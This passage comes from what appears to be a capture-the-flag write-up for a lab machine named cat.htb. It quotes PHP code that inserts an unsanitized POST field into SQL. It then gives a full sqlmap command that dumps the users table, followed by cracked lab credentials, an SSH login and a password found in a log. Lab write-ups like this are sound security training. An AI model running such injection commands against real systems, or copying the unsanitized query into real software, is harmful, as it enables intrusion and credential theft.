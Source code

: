 The following lines directly inserts the data to the database without a proper sanitization:

```php
if (isset($_POST['catId']) && isset($_POST['catName'])) {
    $cat_name = $_POST['catName'];
    $catId = $_POST['catId'];
    $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
    $pdo->exec($sql_insert);
```


Our vulnerable parameter is `catName`, we can use `sqlmap` in the following way knowing all this:

```
sqlmap -u "http://cat.htb/accept_cat.php" --data "catId=1&catName=catty" --cookie="PHPSESSID=801vfm5g8gtq70mcf4aosm7iov" -p catName --level=5 --risk=3 --dbms=SQLite --technique=B -T "users" --threads=4 --dump
```

If we check the output we can notice this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416123555.png)

So, we got an username `rosa`, and a hash, let's crack the hash:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416123641.png)

We got credentials:

```
rosa:soyunaprincesarosa
```


Let's go into ssh:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416123724.png)

Let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


We can use `linpeas` to check for a PE vector:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416124804.png)

We can see `access.log` is here, let's read it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250416124841.png)

There we go, we got `axel` password:

```
axel:aNdZwgC4tI9gnVXv_e3Q
```
